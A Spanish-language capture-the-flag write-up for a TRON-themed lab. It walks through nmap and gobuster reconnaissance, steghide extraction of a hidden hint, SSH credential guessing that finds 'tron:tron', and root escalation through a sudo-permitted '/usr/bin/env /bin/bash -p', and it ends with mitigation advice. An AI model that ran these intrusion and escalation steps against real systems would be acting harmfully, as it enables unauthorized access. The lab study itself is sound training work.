






**Dificultad:** Fácil (★☆☆☆☆☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales  / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 08-11-2026

---



---

<h1 align="center">Descripción</h1>
Este laboratorio está inspirado en el universo digital de TRON: Legacy. Combina técnicas de enumeración de red en el Grid, esteganografía de archivos ocultos por el Creador, ataques de fuerza bruta dirigidos contra protocolos de acceso seguro y la vulneración de directivas binarias para tomar el control absoluto del sistema central de Kevin Flynn.

---

<h1 align="center">1. Reconocimiento</h1>

# 1.1 - Escaneo NMap:

```bash
nmap -sC -sV -p- --min-rate 1000 172.17.0.2 -oN scan_tron.txt
```

Resultado:
```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-08 23:29 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66 ((Ubuntu))
|_http-title: TRON
|_http-server-header: Apache/2.4.66 (Ubuntu)
MAC Address: 42:5B:AD:B5:93:D7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.64 seconds
```
*Puertos Abiertos: 22 y 80*

# 1.2 - Enumeración Web:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,php,json
```

Sin resultados aparentes:

# 1.3 - Reconocimiento Web:

Al ingresar a http:/172.17.0.2/ nos encontramos con solo esto:


Como el lab traia en la descripción un apartado de "esteganografía", descargamos la imagén para ver sí escondía algo con *Steghide*:
```bash
steghide info Untitled.jpeg
"Untitled.jpeg":
  formato: jpeg
  capacidad: 1,5 KB
�Intenta informarse sobre los datos adjuntos? (s/n) s
Anotar salvoconducto: 
  archivo adjunto "disco.txt":
    tama�o: 139,0 Byte
    encriptado: rijndael-128, cbc
    compactado: si

```

y de hecho traía un archivo "adjunto" llamado "disco.txt", para extraer su información se usó:
```bash
steghide extract -sf Untitled.jpeg
```

y al momento de extraerlo y abrirlo obtuvimos el siguiente mensaje:
```text
quorra
"Lo que pasa con la perfección es que es incognoscible. Es imposible, pero también está justo frente a nosotros todo el tiempo."

```

Por lo poco y nada que sé al parecer "quorra" es un personaje, en vez de usar "rockyou.txt" directamente, intenté hacer un pequeño diccionario con lo que tenía a mano y logré averiguar y probar tanto con "quorra" o algún otro personaje. Este fué el resultado:



```text
tron:tron
```

PD:

```
Durante el ataque inicial contra el servicio SSH se intentó un enfoque combinado, con una lista de usuarios temáticos ("tron", "quorra", "flynn", etc.) contra un diccionario de contraseñas. Este enfoque falló repetidamente: tras un número reducido de intentos, Hydra reportaba errores de conexión ("Connection reset by peer") y terminaba desactivando el objetivo, incluso al reducir la concurrencia a una sola tarea (-t1).
```

----

<h1 align="center">2. Entrada Mediante SSH</h1>

# 2.1 - Entrada y Enumeración:

Al momento de entrar vía ssh y enumerar, con "sudo -l", lo primero que obtuvimos fue lo siguiente:

```bash
sudo -l
Matching Defaults entries for tron on af681a979666:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tron may run the following commands on af681a979666:
    (ALL) NOPASSWD: /usr/bin/env

```

Nos decía que el usuario Tron, podría ejecutar /usr/bin/env como cualquier usuario (ALL) sin la necesidad de passwords (NOPASSWD), inclusive como root.

```
"env" es un comando de Unix/Linux que, en su uso más básico, muestra las variables de entorno activas en la sesión actual ("PATH", "HOME", "USER", etc.).

Pero su función más importante y la que importa para el lab es otra: ejecutar un programa con un entorno modificado. Es decir, "env" puede lanzar cualquier otro comando o programa, opcionalmente cambiando las variables de entorno con las que ese programa se ejecuta. El detalle es que si no se le pasa ninguna variable, en solo ejecuta el comando
```

Utilizamos el siguiente comando para obtener root:

```bash
sudo -u root /usr/bin/env /bin/bash -p
```




---

<h1 align="center">Adicional</h1>


Dentro del directorio /root, se encontró un txt llamado "sistema.txt" y un binario llamado "login_flynn"

"sistema.txt" contenía:
```text
te hacke no eres root «La única forma de ganar el juego es no jugar»
¿esta seguro?
```

"login_flynn" al colocar el usuario y contraseña
```text
quorra:quorra
```

Te daba una bandera:
```
DL{disco}
```



# !

---
<h1 align="center">Mitigaciones</h1>

#### 1. Contraseñas débiles y reutilización usuario/contraseña (Crítico)

Las credenciales encontradas (tron:tron, y la del binario quorra:quorra) son triviales: la contraseña coincide literalmente con el nombre de usuario. Este es, con diferencia, el hallazgo más crítico del laboratorio, ya que fue el punto de entrada inicial al sistema.

**Recomendaciones:**

- Exigir contraseñas que no coincidan ni deriven directamente del nombre de usuario.
- Establecer una política de longitud y complejidad mínima (por ejemplo, vía PAM con `pam_pwquality`).
- Implementar autenticación por clave pública (`PubkeyAuthentication`) y deshabilitar `PasswordAuthentication` en SSH para servicios expuestos, reservando contraseñas únicamente para entornos aislados donde el acceso por clave no sea viable.

#### 2. Configuración insegura de sudoers: `/usr/bin/env` con `NOPASSWD` y `ALL` (Crítico)

La entrada `(ALL) NOPASSWD: /usr/bin/env` permitió al usuario `tron` escalar directamente a root, aprovechando que `env` puede usarse como lanzador de cualquier otro binario (técnica documentada en GTFOBins). Esta es la segunda causa raíz crítica del lab, ya que convierte un acceso de bajo privilegio en control total del sistema sin fricción alguna.

**Recomendaciones:**

- Nunca otorgar permisos de `sudo` sobre binarios con capacidad de ejecutar otros programas arbitrarios (`env`, `find`, `vim`, `less`, `awk`, entre los más comunes en GTFOBins), salvo que sea estrictamente necesario y con los argumentos restringidos explícitamente.
- Si se requiere delegar una tarea puntual, usar `sudoers` con la ruta y argumentos exactos permitidos, en vez de autorizar el binario sin restricciones (por ejemplo, `tron ALL=(root) NOPASSWD: /usr/bin/env SPECIFIC_VAR=val /opt/script.sh`, nunca el binario desnudo).
- Evitar `NOPASSWD` salvo en automatizaciones muy acotadas y auditadas; de no ser posible evitarlo, limitar el alcance con `Cmnd_Alias` y combinarlo con restricciones de entorno (`Defaults env_reset`, `secure_path`).
- Auditar periódicamente la configuración de `sudoers` contra la lista de binarios conocidos en GTFOBins.

#### 3. Credenciales y lógica de negocio expuestas en binario compilado (Medio)

El binario "login_flynn", pese a estar compilado (GnuCOBOL 3.2), filtró toda su lógica interna y la credencial esperada ("quorra") en texto plano, recuperable con un simple "strings". Aunque este binario no formaba parte de la cadena de escalada de privilegios (ya se tenía acceso root al momento de encontrarlo), representa una mala práctica relevante si el patrón se repitiera en un sistema real con datos sensibles.

**Recomendaciones:**

- Nunca embeber credenciales, tokens o secretos como literales dentro del código fuente o binario, independientemente del lenguaje o si está compilado.
- Delegar la verificación de credenciales a un mecanismo externo (hash con sal, servicio de autenticación), nunca a comparación directa contra un valor fijo.
- Si se requiere ofuscación real, considerar que la compilación por sí sola no protege strings embebidos; existen técnicas de cifrado de recursos en tiempo de ejecución, aunque la recomendación de fondo sigue siendo no almacenar secretos en el binario.

#### 4. Enumeración de contenido web sin restricciones (Bajo)

La imagen "Untitled.jpeg" con el archivo oculto fue servida sin control de acceso adicional, lo que permitió su descarga y análisis directo sin autenticación previa.

**Recomendaciones:**

- Si existe contenido sensible o pistas de un mecanismo de autenticación embebidas en archivos estáticos, no deberían ser accesibles públicamente sin algún control (aunque en este caso, por tratarse de un lab deliberadamente diseñado así, es más una observación que una falla real a corregir).
